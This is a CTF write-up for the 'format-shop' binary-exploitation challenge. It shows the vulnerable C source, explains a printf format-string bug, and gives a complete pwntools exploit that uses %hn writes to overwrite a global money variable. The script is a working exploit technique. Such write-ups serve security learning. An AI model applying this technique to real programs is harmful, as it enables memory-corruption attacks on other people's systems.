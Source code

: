 ```yaml
---
title: Binary exploitaion :format-string vulnerability
date: '2022-12-30'
tags: ['pwn', 'CTF']
draft: false
summary: 'writeup for a binary exploitaion challenge that was issued in the jingle bell CTF (format-string vulnerability).'
authors: ['oussema zouch']
---
```

### format-shop challenge from the jingle bell CTF .
given the source code:

```c
#include <stdio.h>

unsigned int money = 1500;

int menu(){
    puts("1. Go shopping!");
    puts("2. Give feedback.");
    puts("3. Bye");

    int tmp;
    printf("> ");
    scanf("%d", &tmp);
    getchar();
    return tmp;
}

void setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void flag(){
	char c;
    FILE *fp=fopen("./flag.txt","r");
    if(fp){
        while( (c=getc(fp)) != EOF)
            putchar(c);
        fclose(fp);
    }else{
        puts("Flag file not found!");
    }
}

void shop(){
    unsigned int prices[5] = {69, 12, 322, 554, 0x1337};
    char* items[5] = {"Ice", "Fish", "Icecream", "Sugar", "flag"};

    for(int i=0; i<5; i++){
        printf("%d. %s:%d coins.\n", i+1, items[i], prices[i]);
    }

    printf("You have %u coins\n", money);
    int idx;
    printf("Item> ");
    scanf("%d", &idx);
    getchar();

    if(idx < 1 || idx > 5){
        puts("Invalid index.");
        return;
    }

    idx--; // To use as index
    if(prices[idx] > money){
        puts("Not enough money");
        return;
    }

    if(idx == 4){
        flag();
    }
    money -= prices[idx];
    puts("Item bought!");
}

void feedback(){
    char feedbackContent[250];
    printf("> ");
    int c = read(0, feedbackContent, 249);

    if(c == -1) return;
    feedbackContent[c] = '\0';
    
    printf(feedbackContent);
    puts("Thanks for the feedback!");
}

int main(){
    setup();

    int choice;
    do{
        choice = menu();
        switch (choice)
        {
        case 1:
            shop();
            break;
        case 2:
            feedback();
            break;
        default:
            break;
        }
    }while(choice != 3);

    return 0;
}
```
there is a function called flag() in the source code that we can reach if we buy the the flag item which costs 0x1337 (4919) but we only have 1500 .
#### first let’s run some basic file checks .
![file check](/static/images/format1.png)

we can see that The No eXecute or the NX bit is enabled which means that we can’t jump to custom shellcode after being injected in the stack.

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — 



![](/static/images/format2.png)

hmmmm!!!that’s a **format-string vulnerability** and 6 is the first formatter’s offset we control since the hex representation of **‘%p-’ is 0x70252d**.

we can use this vulnerability and try to modify our money variable to make it higher than 4919.

**money_add**=0x0000000000404060

we will use the %nformat specifier which takes in a pointer (memory address) and writes there the number of characters written so far.

our payload will look like :payload=p64(**money_add**)+b’a’*5000+ b’%6$n’. so we expect that with this payload we will write 5000+4 bytes to money_add.

***BUT IT DOESN’T WORK!!!!!!!!!!!!!!!***

The reason it doesn’t work is that *printf* stops at null bytes, and the money-address contains null bytes. We have to put the format specifier first.

there is also another problem that will prevent this payload from working is that we can’t write 5004 bytes into memory .

we will try to write in the higher bytes of our address. there is a way to do this with %hn format specifier.

# CONSTRUCTING THE PAYLOAD

**_payload=b’a’\*16+b’%9$hn|||’+p64(money_add+2)_**

let’ s break and take a look at **money** in gdb :

![](/static/images/format3.png)
money is equal to 0x00000000001005dc (= 1050076)

## final exploit:

```python
from pwn import * 
import pwnlib.util.packing as pack
elf=ELF('main')
#p=elf.process()
p=remote('REMOTE_server',PORT)
money_add=0x0000000000404060
p.sendline(b'2')
payload=b'a'*16
payload+=b'%9$hn|||'
payload+=p64(money_add+2)
payload+=b'%10$hn||'
payload+=p64(money_add)
p.sendline(payload)
p.recvuntil(b'3. Bye')
p.sendline(b'2')
p.interactive()
```

Special Thanks to **Securinets INSAT** for bringing to life this challenging CTF .i really enjoyed learning new stuff related mainly to the binary exploitation category.
